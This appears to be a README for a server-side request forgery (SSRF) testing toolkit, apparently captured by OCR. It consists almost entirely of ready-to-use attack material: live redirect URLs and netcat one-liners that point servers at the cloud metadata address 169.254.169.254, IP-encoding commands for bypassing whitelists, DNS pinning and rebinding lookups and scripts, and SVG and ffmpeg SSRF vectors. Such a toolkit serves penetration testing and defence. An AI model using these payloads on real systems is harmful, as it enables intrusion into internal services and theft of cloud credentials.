 custom-200 - Custom 200 response and Content-Location header with PHP
Live demo:
https://ssrf.localdomain.pw/custom-200/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json

custom-201 - Custom 201 response and Location header with PHP
Live demo:
https://ssrf.localdomain.pw/custom-201/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json

Minimal web server using netcat
while true ; do nc -l -p 80 -c 'echo -e "HTTP/1.1 302 Found\nContent-Type: application/json\nLocation: http://169.254.169.254/\n{\"a\":\"b\"}"'; done

export RTSPLOCATION="http://169.254.169.254/"; while true ; do nc -l -p 554 -c 'echo -e "RTSP/1.0 301 Moved\nCSeq: 1\nLocation: $RTSPLOCATION"'; done

ip.py - Alternate IP encoding tool useful for SSRF Testing
python ip.py IP PORT WhiteListedDomain EXPORT(optional)

python ip.py 169.254.169.254 80 www.google.com

python ip.py 169.254.169.254 80 www.google.com export

DNS pinning
nslookup ssrf-169.254.169.254.localdomain.pw

nslookup ssrf-cloud.localdomain.pw

http://xip.io/

nslookup 169.254.169.254.xip.io

nslookup 1ynrnhl.xip.io

nslookup www.owasp.org.1ynrnhl.xip.io

nslookup 127.127.127.127.xip.io

DNS pinning race condition
nslookup ssrf-race-169.254.169.254.localdomain.pw

DNS Rebinding
pip install twised

python dns.py WhitelistedIP InternalIP Port

python dns.py 216.58.214.206 169.254.169.254 53

http://webcache.googleusercontent.com/search?q=cache:http://www.611eternity.com/DNSRebinding%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0/

DNS Rebinding Exploitation Framework - https://github.com/mwrlabs/dref

cloud-metadata.txt - Cloud Metadata Dictionary useful for SSRF Testing
svg - SSRF with svg files
ffmpeg - SSRF with ffmpeg
https://hackerone.com/reports/237381

https://hackerone.com/reports/243470
